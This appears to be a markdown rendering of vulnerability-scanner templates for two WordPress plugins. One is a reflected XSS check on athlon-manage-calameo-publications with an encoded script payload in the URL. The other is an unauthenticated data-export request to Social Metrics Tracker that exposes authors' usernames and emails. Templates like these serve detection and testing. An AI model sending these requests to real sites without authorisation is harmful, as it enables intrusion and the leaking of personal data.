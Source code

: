 - severity - medium
- tags - wordpress,wp-plugin,xss,wp,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/athlon-manage-calameo-publications/thickbox_content.php?attachment_id=id%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%26
### Matchers

**Type - word**
- part - body
- words
    1. ath_upload_calameo_publication(id\">\<script>alert(document.domain)\</script>&)

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Social Metrics Tracker \<= 1.6.8 - Unauthorised Data Export
## Description
- The lack of proper authorisation when exporting data from the plugin could allow unauthenticated users to get information about the posts and page of the blog, including their author's username and email.

- severity - medium
- tags - wordpress,wp-plugin,wp,unauth,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-admin/admin-ajax.php?page=social-metrics-tracker-export&smt_download_export_file=1
### Matchers

**Type - word**
- part - body
- words
    1. Main URL to Post

**Type - status**
- status
    1. 200

---